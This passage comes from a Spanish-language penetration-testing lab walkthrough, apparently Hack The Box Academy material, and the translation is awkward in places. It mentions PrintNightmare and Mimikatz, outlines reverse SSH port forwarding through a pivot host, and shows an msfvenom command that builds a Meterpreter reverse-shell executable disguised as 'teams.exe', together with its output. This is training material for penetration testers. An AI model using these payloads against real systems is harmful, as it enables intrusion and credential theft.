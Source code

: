 ```cmd-session
The command completed successfully.
```

También podríamos escalar privilegios en el host Dev01 utilizando el`PrintNightmare`vulnerabilidad. También hay otras formas de recuperar las credenciales, como el uso de Mimikatz. Juega con esta máquina y aplique las diversas habilidades que aprendiste en el`Penetration Tester Path`Para realizar estos pasos de tantas maneras como sea posible para practicar y encontrar lo que funciona mejor para usted.

En este punto, no tenemos hallazgos adicionales para escribir porque todo lo que hicimos fue abusar de la funcionalidad incorporada, que podríamos realizar debido a los problemas de compartir archivos mencionados anteriormente. Podríamos anotar abajo`PrintNightmare`Como un hallazgo de alto riesgo si podemos explotarlo.

---

## Método alternativo: reenvío de puertos inversos

Hay muchas maneras de atacar esta red y lograr los mismos resultados, por lo que no los cubriremos a todos aquí, pero una valía la pena mencionar es[Reenvío de puertos remoto/inverso con SSH](https://academy.hackthebox.com/module/158/section/1427). Digamos que queremos devolver una carcasa inversa del`DEV01`Box a nuestro anfitrión de ataque. No podemos hacer esto directamente ya que no estamos en la misma red, pero podemos aprovechar`dmz01`Para realizar el reenvío de puertos inversos y lograr nuestro objetivo. Es posible que deseemos obtener una cubierta de meterpreter en el objetivo o un shell inverso directamente por cualquier cantidad de razones. También podríamos haber realizado todas estas acciones sin obtener un shell, como podríamos haber usado`PrintSpoofer`Para agregar un administrador local o volcar credenciales de`DEV01`y luego conectarse al host en cualquier cantidad de maneras desde nuestro host de ataque usando proxychains (pass-the-hash, rdp, winrm, etc.). Vea cuántas formas puede lograr la misma tarea de interactuar con el`DEV01`anfitrión directamente de su anfitrión de ataque. Es esencial ser versátil, y esta red de laboratorio es un gran lugar para practicar tantas técnicas como sea posible y perfeccionar nuestras habilidades.

Caminemos por el método de reenvío de puertos inversos rápidamente. En primer lugar, necesitamos generar una carga útil utilizando`msfvenom`. Tenga en cuenta que aquí especificaremos la dirección IP del`dmz01`host de pivote en el`lhost`campo y no nuestra IP host de ataque como el objetivo no podría conectarse directamente a nosotros.

  Explotación y escalada de privilegios

```shell-session
xnoxos@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.8.120 -f exe -o teams.exe LPORT=443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 787 bytes
Final size of exe file: 7168 bytes
Saved as: teams.exe
```

A continuación, necesitamos configurar un`multi/handler`e inicie un oyente en un puerto diferente a la carga útil que generamos.
